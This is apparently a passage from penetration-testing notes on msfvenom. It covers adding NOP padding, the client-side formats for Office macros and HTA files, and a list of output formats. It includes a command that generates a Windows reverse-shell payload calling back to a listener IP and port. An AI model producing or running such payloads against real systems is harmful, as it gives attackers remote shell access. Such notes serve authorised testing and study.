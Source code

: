 Note2:  If you run into issues where the session still dies, try upgrading Metasploit or make sure you are not moving through the program too quickly.

### Adding NOPs

If you need to size your shellcode specifically, use the `-n` option to specify a number of NOPs (or NOP equivalents, MSFVenom will use some other characters that do the same thing):

```bash
# Specify 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f py -n 20
```

### Buffer Overflows

See the Fuzzing Windows / Linux pages.

### Web Applications

See the HTML-Applications page

### Client-Side attacks

File formats hta-psh, vba, and vba-psh are for client-side attacks using an Office macro or HTML applications.

### msfvenom Output Formats

```bash
Framework Executable Formats [--format <value>]
===============================================
                            
    Name
    ----
    asp
    aspx      
    aspx-exe
    axis2
    dll   
    elf
    elf-so
    exe 
    exe-only
    exe-service  
    exe-small
    hta-psh
    jar                                                  
    jsp                                                  
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war
    
Framework Transform Formats [--format <value>]
==============================================
```